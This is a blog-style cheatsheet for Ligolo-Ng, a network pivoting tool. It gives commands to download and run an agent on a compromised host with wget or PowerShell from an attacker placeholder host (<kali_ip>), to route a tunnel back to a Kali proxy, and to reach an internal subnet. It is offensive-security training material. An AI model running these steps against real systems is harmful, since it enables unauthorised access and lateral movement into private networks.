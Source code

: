 ```yaml
---
layout: post
title:  Ligolo-Ng Cheatsheet
description: Cheatsheet for Ligolo-Ng
date:   2024-10-31 09:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

# Getting Ligolo-Ng
Important Note: Make sure you are always using the same version of Proxy and Agent.

## Download the binaries manually (recommended)
### PROXY (Run this on Kali)
- [Linux 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

### AGENT (Run this on Pivot Host)
- [Linux 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-Ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

# Alternative with Package Installer
```shell
sudo apt install ligolo-ng
# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

# Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443
# On Target (Linux)
cd /tmp
wget http://<kali_ip>:443/agent
# On Target (Windows using PowerShell)
cd C:\Windows\Temp
powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
```
Set up Ligolo-Ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up
# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list
# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert
# The Ligolo-Ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert
```

Now enter the following on the Ligolo-Ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session
# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1
# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start
# Now we are able to access the network 172.16.150.0/24
```



